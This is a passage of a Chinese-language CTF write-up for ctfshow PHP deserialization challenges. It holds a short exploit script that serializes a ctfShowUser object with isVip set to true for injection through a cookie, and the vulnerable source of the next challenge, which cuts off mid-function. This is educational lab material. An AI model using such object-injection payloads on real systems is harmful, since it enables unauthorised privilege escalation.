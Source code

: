 

#### 解析

Cookie 处添加了序列化函数，类里面的账号密码进行了更改，我们在exp还改成 xxxxx ，传参正常传

exp

?username=xxxxxx&password=xxxxxx

```php
<?php

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=true;

}

$a = new ctfShowUser;
echo urlencode(serialize($a));
```



![](WEBRESOURCEc3360a03ae41469c8b7f37e28e4bda37.png)











## web256



#### 源代码



```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            if($this->username!==$this->password){
                    echo "your flag is ".$flag;
              }
        }else{
            echo "no vip, no flag";
        }
```